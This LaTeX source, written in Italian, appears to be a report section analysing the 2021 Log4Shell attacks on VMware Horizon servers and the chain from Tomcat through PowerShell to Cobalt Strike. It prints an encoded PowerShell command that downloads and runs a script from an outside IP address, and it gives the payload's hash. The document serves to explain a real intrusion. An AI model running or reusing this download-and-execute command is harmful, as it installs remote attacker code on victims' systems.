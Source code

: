 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Orde di bot attaccano gli WMware Horizon server per minare}
Nel dicembre del 2021, dopo la scoperta della falla nella di Log4J Shell (la
quale permetteva di eseguire codice da remoto) è stato rilevato un attacco ai
sistemi VMware Horizon\footnote{Applicazione dekstop che permette di
vitualizzare diverse piattaforme, particolarmente utilizzata nelle organizzioni
che prevedono smart-working}, che utilizzavano questa libreria. L'attacco è
stato fatto sfruttando una particolare risorsa di Log4J: Lightweight Directory
Access Protocol che permetteva di creare una shell web dalla quale ci si poteva
collegare da remoto.\cite{VMware}

\paragraph{Attacco: VMware -> Tomcat -> Cobalt} Gli hacker inziano l'attacco
eseguendo il servizio Tomcat che termina con l'esecuzione dello script
PowerShell, il quale a sua volta esegue una "reverse shell standard" di Cobalt
Strike:

\begin{verbatim}
    powershell.exe -exec bypass -enc 
    aQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQB
    tAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG
    8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOAA1AC4AMQ
    AxADIALgA4ADMALgAxADEANgA6ADgAMAA4ADAALwBkAHIAdgAnACkAKQA=
\end{verbatim}

Il comando decodifica:

\begin{figure}[ht]
    \centering
    \includegraphics[width=0.95\textwidth]{./images/powershell1.png}
    \caption{Comando su powershell}
    \label{fig:powershell_command1}
\end{figure}

Viene scaricato il file \\
\textit{sha256:6c7182d945e7e7ae8f7c289c9f4655295408cf14b72bab9686cc8dbebe845f4e}
che rappresenta la reverse shell Cobalt Strike.

Questo attacco, però, lasciava diverse tracce.
\end{document}
